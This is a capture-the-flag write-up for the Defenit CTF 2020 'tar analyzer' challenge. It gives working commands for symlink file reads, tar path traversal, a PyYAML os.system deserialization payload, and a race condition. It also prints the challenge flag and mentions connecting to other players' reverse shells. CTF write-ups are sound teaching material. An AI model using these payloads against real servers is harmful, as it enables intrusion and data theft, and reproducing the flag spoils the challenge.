 # Defenit-CTF Write-Up - tar analyzer

I had a lot of fun and learning with this challenge!

I have a much simpler report here.
I wrote a much more detailed story, but in Portuguese:
https://medium.com/@neptunian.hacker/defenit-ctf-2020-write-up-tar-analyzer-web-hacking-29ed5be3f5f4?sk=a583e7812f82b59d0cf48d65e40468bc

### 1. Used symlinks with relative paths, inside the uploaded tarfile, to read any file in the target server.

```
$ ln -s ../../config.yaml config.txt
$ tar cvf config.tar config.txt
config.txt
```

In the sample above, I can read the config.yaml file on the server after uploading config.tar. 
"Sadly", the flag is not there.

### 2. Used Zip Sliping to write files in the source directory.

Created a tarball with relative paths in the inner files, using the tarfile Python package.

```
$ echo “Up One Level” > ../nivel.txt
$ python
Python 3.7.4 (default, Aug 13 2019, 20:35:49) 
[GCC 7.3.0] :: Anaconda, Inc. on linux
Type “help”, “copyright”, “credits” or “license” for more information.
>>> import tarfile
>>> tar = tarfile.open(“uplevel.tar”, “w”)
>>> tar.add(“../nivel.txt”)
>>> tar.close()
>>> quit()
$ tar tvf uplevel.tar 
tar: Removing leading `../’ from member names
-rw-r — r — neptunian/neptunian 17 2020–06–11 16:28 ../nivel.txt
```
Used this to overwrite the ../../config.yaml file, but it is reset again by the initialize() function

### 3. Tested the PyYAML vulnerability (locally) to check if the application code is flawed

**No file**
```
$ cat /tmp/nep.txt
cat: /tmp/nep.txt: No such file or directory
```

**Create Payload file**
```
$ cat sample.yaml 
!!python/object/apply:os.system [
 !!str “find ../ > /tmp/nep.txt”,
]
```

**Load the same way as the target**
```
$ python
Python 3.7.4 (default, Aug 13 2019, 20:35:49) 
[GCC 7.3.0] :: Anaconda, Inc. on linux
Type “help”, “copyright”, “credits” or “license” for more information.
>>> from yaml import *
>>> fp = open(‘sample.yaml’, ‘rb’)
>>> config = load(fp.read(), Loader=Loader)
>>> quit()
$ cat /tmp/nep.txt 
../
../other_files.txt
../f528764d624db129b32c21fbca0cb8d6
../9eea719ae29960691c72dac70bd0a33a
../9eea719ae29960691c72dac70bd0a33a/config2.txt
$
```

It lives!

### 4. Used Race Condition to get the flag

Since initialize() and hostcheck() are called in sequence, there is a very small window of opportunity here.
I believe multiple tar uploads would not work because the request takes too long, in comparison with the /admin call.

I created a tar file with 5000 (yes, thousands) of config.yaml files to force a loop in the extractall() call.

Organizers: Sorry to upload 5MB files. You forced me to do it :innocent:

```
import tarfile

tar = tarfile.open("nep3.tar", "w")
for i in range(1,5000):
    tar.add("../../config.yaml")

tar.close()
```

I used the following final yaml payload (I know everybody else tried reverse shells because I saw them doing it).
Sent to /tmp to avoid other hackers getting a hint from me (sorry guys).
```
!!python/object/apply:os.system [
  !!str "ls -l / > /tmp/owned3.txt; env >> /tmp/owned3.txt; netstat -an >> /tmp/owned3.txt",
]
```

After uploading the nep3.tar (which took a lot of time), I started a loop in the /admin url:
```
for i in $(seq 1 100); do curl http://target_host/admin/; done
```

After about 3 tries, the /tmp/owned3.txt was created and I got it using the symlinks.
I found the /flag.txt and got it with another symlink (I think I was the only one who didnt guess the file location).

Owned!

**Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}**


### My sorry and thanks to others hackers

While reading the config.yaml on the server, I say hackers trying the PyYAML vulnerability and others, before I even understood what was it (At first, I thought it was some strange behaviour of the challenge itself). 
I connected to some reverse shells and may have sent some greetings after receiving the **ls** :laughing:

If your IP was 52.34.X.X, I hope I didnt delayed you so much, lol.

Sorry and thank you all.
